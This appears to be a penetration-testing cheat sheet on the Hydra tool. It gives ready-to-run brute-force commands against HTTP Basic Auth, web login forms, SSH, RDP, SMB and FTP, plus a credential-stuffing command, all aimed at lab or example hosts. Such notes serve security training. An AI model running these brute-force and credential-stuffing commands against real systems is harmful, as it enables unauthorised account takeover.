

# **Basic Usage**

```bash
hydra [login_options] [password_options] [attack_options] [service_options]
```

| Parameter | Explanation | Usage Example |
| --- | --- | --- |
| `-l LOGIN` or `-L FILE` | Login options: Specify either a single username (`-l`) or a file containing a list of usernames (`-L`). | `hydra -l admin ...` or `hydra -L usernames.txt ...` |
| `-p PASS` or `-P FILE` | Password options: Provide either a single password (`-p`) or a file containing a list of passwords (`-P`). | `hydra -p password123 ...` or `hydra -P passwords.txt ...` |
| `-t TASKS` | Tasks: Define the number of parallel tasks (threads) to run, potentially speeding up the attack. | `hydra -t 4 ...` |
| `-f` | Fast mode: Stop the attack after the first successful login is found. | `hydra -f ...` |
| `-s PORT` | Port: Specify a non-default port for the target service. | `hydra -s 2222 ...` |
| `-v` or `-V` | Verbose output: Display detailed information about the attack's progress, including attempts and results. | `hydra -v ...` or `hydra -V ...` (for even more verbosity) |
| `service://server` | Target: Specify the service (e.g., `ssh`, `http`, `ftp`) and the target server's address or hostname. | `hydra ssh://192.168.1.100` |
| `/OPT` | Service-specific options: Provide any additional options required by the target service. | `hydra http-get://example.com/login.php -m "POST:user=^USER^&pass=^PASS^"` (for HTTP form-based authentication) |

# **Brute-Forcing HTTP Authentication**

```bash
hydra -L usernames.txt -P passwords.txt www.example.com http-get / -s 4324

-s : Specify port
```

This command try to use a Basic HTTP Auth


# **Brute-Forcing a Web Login Form**

## Example Code

```html
<form action="/login" method="post">
	<label for="username">Username:</label>
	<input type="text" id="username" name="username"><br><br>
	<label for="password">Password:</label><input type="password" id="password" name="password"><br><br>
	<input type="submit" value="Submit">
</form>
```

## Usage

```bash
hydra [options] target http-post-form "path:params:condition_string"
```

## Example 

```bash
hydra -l admin -P passwords.txt www.example.com http-post-form "/login:user=^USER^&pass=^PASS^:S=302"
```

## **Failure Condition**

The failure condition (`F=...`) is used to check for a specific string in the server's response that signals a failed login attempt. 

```bash
hydra ... http-post-form "/login:user=^USER^&pass=^PASS^:F=Invalid credentials"
```

## **Success Condition**

The success condition (`S=...`) is used to check for a specific string in the server's response that signals a success login attempt.

```bash
hydra ... http-post-form "/login:user=^USER^&pass=^PASS^:S=302"

#Hydra will now register the login as successful if it finds the word "Dashboard" 
#in the server’s response
hydra ... http-post-form "/login:user=^USER^&pass=^PASS^:S=Dashboard"
```

## **Constructing the params String**

```bash
/:username=^USER^&password=^PASS^:F=Invalid credentials

Hydra will dynamically replace placeholders (^USER^ and ^PASS^) 
```

# Other services

## SSH

```
hydra -L user.list -P password.list ssh://10.129.42.197
```

### **Targeting Multiple SSH Servers**

```bash
hydra -l root -p toor -M targets.txt ssh
```

## RDP

```
hydra -L user.list -P password.list rdp://10.129.42.197
```

### **Advanced RDP Brute-Forcing**

```powershell
hydra -l administrator -x 6:8:abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 192.168.1.100 rdp
```

Generate and test passwords ranging from 6 to 8 characters, using the specified character set.

## **SMB**

```
hydra -L user.list -P password.list smb://10.129.42.197
```

## **Testing Credentials on a Non-Standard Port**

```powershell
hydra -L usernames.txt -P passwords.txt -s 2121 -V ftp.example.com ftp
```

# Credential Stuffing

```
hydra -C user_pass.list ssh://10.129.42.197
```
